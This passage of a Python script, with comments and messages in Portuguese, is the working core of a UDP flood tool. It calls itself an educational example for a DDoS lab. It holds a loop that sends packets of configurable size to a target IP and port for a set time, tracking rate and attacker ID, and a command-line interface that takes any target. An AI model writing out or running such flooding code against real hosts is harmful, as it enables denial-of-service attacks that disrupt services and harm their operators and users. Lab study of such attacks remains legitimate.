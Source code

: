 ```python
    packet_count = 0
    end_time = time.time() + duration

    try:
        while time.time() < end_time:
            try:
                # Envia o pacote UDP para o alvo
                s.sendto(payload, (target_ip, target_port))
                packet_count += 1

                # Imprime status periodicamente
                if packet_count % 1000 == 0:
                    remaining = int(end_time - time.time())
                    print(f"[*] Atacante #{attack_id} - Pacotes: {packet_count} | Restante: {remaining}s", end='\r')

            except socket.error as send_err:
                print(f"\n[!] Erro ao enviar pacote: {send_err}")
                time.sleep(0.5)
            except Exception as general_err:
                print(f"\n[!] Erro inesperado: {general_err}")
                break

    except KeyboardInterrupt:
        print(f"\n[*] Ataque interrompido pelo usuário.")
    finally:
        elapsed_time = min(duration, duration - (end_time - time.time()))
        rate = packet_count / elapsed_time if elapsed_time > 0 else 0
        print(f"\n[*] Atacante #{attack_id} - Ataque concluído")
        print(f"[*] Total de pacotes enviados: {packet_count}")
        print(f"[*] Duração: {elapsed_time:.2f} segundos")
        print(f"[*] Taxa média: {rate:.2f} pacotes/segundo")
        
        if 's' in locals() and s:
            s.close()
            print("[*] Socket fechado.")

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Exemplo educacional de UDP Flood para laboratório DDoS')
    parser.add_argument('target_ip', help='Endereço IP do alvo')
    parser.add_argument('target_port', type=int, help='Porta UDP do alvo')
    parser.add_argument('-s', '--size', type=int, default=1024, help='Tamanho do pacote em bytes (padrão: 1024)')
    parser.add_argument('-d', '--duration', type=int, default=30, help='Duração do ataque em segundos (padrão: 30)')
    parser.add_argument('-i', '--id', type=int, default=0, help='ID do atacante (padrão: 0)')
    
    args = parser.parse_args()
    
    if args.size <= 0 or args.size > 65507:  # Limite prático UDP IPv4
        print("[!] Erro: Tamanho do pacote deve estar entre 1 e 65507 bytes")
        sys.exit(1)
        
    if args.duration <= 0:
        print("[!] Erro: Duração deve ser um número positivo")
        sys.exit(1)
    
    main(args.target_ip, args.target_port, args.size, args.duration, args.id)
```
